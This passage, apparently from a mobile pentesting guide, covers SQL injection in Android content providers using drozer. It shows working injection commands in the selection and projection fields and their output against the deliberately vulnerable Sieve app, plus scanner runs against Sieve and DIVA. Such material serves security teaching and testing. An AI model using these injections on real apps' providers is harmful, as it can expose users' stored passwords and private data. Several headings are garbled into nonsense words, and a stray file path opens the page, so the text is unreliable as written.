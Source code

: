 ### Delete content

![](<../../../.gitbook/assets/image (191).png>)

### **SQL Injection**

It is simple to test for SQL injection **(SQLite)** by manipulating the **projection** and **selection fields** that are passed to the content provider.\
When quering the Content Provider there are 2 interesting arguments to search for information: _--selection_ and _--projection_:

![](<../../../.gitbook/assets/image (192) (1).png>)

You can try to **abuse** this **parameters** to test for **SQL injections**:
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```
**Drozer-qaStaHvIS SQLInjection tIv'a'**
```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
android_metadata
notes
sqlite_sequence
```
## **Qawaneq Qawaneq Qawaneq**
